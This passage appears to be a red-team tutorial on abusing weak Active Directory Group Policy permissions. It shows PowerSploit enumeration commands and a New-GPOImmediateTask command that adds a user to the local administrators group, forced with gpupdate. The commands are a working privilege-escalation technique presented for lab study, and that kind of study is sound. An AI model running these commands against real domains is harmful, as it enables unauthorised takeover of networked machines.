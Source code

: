 If we want to search for misconfigured GPOs specifically, we can chain multiple cmdlets from PowerSploit like so:

```bash
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/a16.png)

**Computers with a Given Policy Applied**

We can now resolve the computer names the GPO `Misconfigured Policy` is applied to:

```
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```

![](../../.gitbook/assets/a17.png)

**Policies Applied to a Given Computer**

```
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```

![](https://blobs.gitbook.com/assets%2F-LFEMnER3fywgFHoroYn%2F-LWNAqc8wDhu0OYElzrN%2F-LWNBOmSsNrObOboiT2E%2FScreenshot%20from%202019-01-16%2019-44-19.png?alt=media\&token=34332022-c1fc-4f97-a7e9-e0e4d98fa8a5)

**OUs with a Given Policy Applied**

```
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```

![](https://blobs.gitbook.com/assets%2F-LFEMnER3fywgFHoroYn%2F-LWNAqc8wDhu0OYElzrN%2F-LWNBtLT332kTVDzd5qV%2FScreenshot%20from%202019-01-16%2019-46-33.png?alt=media\&token=ec90fdc0-e0dc-4db0-8279-cde4720df598)

**Abusing Weak GPO Permissions**

One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

![](../../.gitbook/assets/a19.png)

The above will add our user spotless to the local `administrators` group of the compromised box. Note how prior to the code execution the group does not contain user `spotless`:

![](../../.gitbook/assets/a20.png)

#### Force Policy Update <a href="#force-policy-update" id="force-policy-update"></a>

ScheduledTask and its code will execute after the policy updates are pushed through (roughly each 90 minutes), but we can force it with `gpupdate /force` and see that our user `spotless` now belongs to local administrators group:
